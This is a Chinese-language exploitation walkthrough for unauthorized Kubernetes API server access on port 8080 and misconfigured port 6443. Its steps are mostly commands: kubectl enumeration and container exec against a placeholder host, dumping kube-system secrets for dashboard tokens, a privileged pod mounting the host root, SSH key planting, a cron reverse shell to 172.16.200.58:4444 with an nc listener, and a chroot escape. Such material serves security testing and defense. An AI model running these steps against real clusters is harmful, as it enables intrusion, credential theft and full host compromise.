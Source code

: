 # 

# K8s API Server未授权命令执行

## 漏洞描述

Kubernetes是一个可以移植、可扩展的开源平台，使用 声明式的配置 并依据配置信息自动地执行容器化应用程序的管理。在所有的容器编排工具中（类似的还有 docker swarm / mesos等），Kubernetes的生态系统更大、增长更快，有更多的支持、服务和工具可供用户选择。

K8s 的API Server默认服务端口为8080(insecure-port)和6443(secure-port)，8080端口提供HTTP服务，没有认证授权机制，而6443端口提供HTTPS服务，支持认证(使用令牌或客户端证书进行认证)和授权服务。默认情况下8080端口不启动，而6443端口启动。这两个端口的开放取决于/etc/kubernetes/manifests/kube-apiserver.yaml配置文件。

如果目标K8s的8080端口开启了，由于其没有认证授权机制，因此存在未授权访问。

如果目标K8s的6443端口开启了，如果配置错误，也可以导致存在未授权访问。

## 漏洞复现

### 8080端口

默认情况下，8080端口关闭的，手动开启：

```
cd /etc/kubernetes/manifests
vim kube-apiserver.yaml
```

高版本的k8s中，将--insecure-port这个配置删除了，因此添加如下两行：

```

- --insecure-port=8080
- --insecure-bind-address=0.0.0.0
```

![image-20230215102911534](images/image-20230215102911534.png)

重启k8s：

```
systemctl restart kubectl
```

访问8080端口即可看到存在未授权：

![image-20230215110103802](images/image-20230215110103802.png)

也可以使用kubectl远程连接获得信息：

```
kubectl -s http://your-vps-ip:8080 get nodes
```

注：在高版本（1.20及其以后）的K8s中直接禁用了该端口，并且无法打开。

### 6443端口

如果运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，则会使得6443端口允许匿名用户以管理员权限访问。

正常情况下访问6443端口，提示Forbidden。

![image-20230215110607076](images/image-20230215110607076.png)

执行如下命令将"system:anonymous"用户绑定到"cluster-admin"用户组：

```
kubectl create clusterrolebinding cluster-system-anonymous --clusterrole=cluster-admin --user=system:anonymous
```

再次访问访问6443端口，即可未授权访问。

## 漏洞利用

### 命令执行

#### 查看k8s集群信息

```
kubectl -s http://your-vps-ip:8080 cluster-info
```

#### 查看node节点信息

```
#查看node节点
kubectl -s http://your-vps-ip:8080 get nodes

#查看node节点详细信息
kubectl -s http://your-vps-ip:8080 get nodes -o wide
```

#### 查看pod节点信息

```
#查看所有的pod
kubectl -s http://your-vps-ip:8080 get pods -A
```

#### 执行其他命令

通过获取到的pods节点信息，进入对应docker 命令执行。-n对应的是NAMESPACE，-it 对应的是NAME：

```
#进入命名空间为default，名字为hello-minikube的容器
kubectl -s http://your-vps-ip:8080 exec -n default -it hello-minikube -- /bin/bash

#进入命名空间为kube-system，名字为etcd-ubuntu的容器
kubectl -s http://your-vps-ip:8080 exec -n kube-system -it etcd-ubuntu -- /bin/sh
```

### 获取Token登录dashboard

访问如下接口，即可看到K8s所有的Token，我们过滤找到dashboard-admin相关的Token。

```
http://your-vps-ip:8080/api/v1/namespaces/kube-system/secrets/

https://your-vps-ip:6443/api/v1/namespaces/kube-system/secrets/
```

然后对其base64解码一次，即可使用base64解码后的Token登录K8s的dashboard。

### 获取宿主机权限

#### 创建pod

通过k8s dashboard，创建特权Pods来获得宿主机权限。登录dashboard后台后，点击右上角+号，然后输入如下命JSON内容，创建名为myapp的pod，并且将宿主机的目录挂在到了/mnt目录下：

```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test
  volumes:
  - name: test
    hostPath:
      path: /
```

点击工作负载→Pods，可以看到刚才创建的pod。

点击myapp名称。点击右上角进入Shell窗口。

#### 写入ssh公钥

切换到/mnt/root/.ssh目录下，写入公钥文件，即可免密登录宿主机。

#### 定时任务反弹shell

也可以往宿主机写入crontab来反弹获取shell，执行如下命令，将反弹shell的命令写入/var/spool/cron/root文件中：

```
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/172.16.200.58/4444 0>&1" > root
```

nc监听接收反弹shell：

```
$ nc -lvp 4444
```

#### chroot逃逸

```
chroot /mnt
```


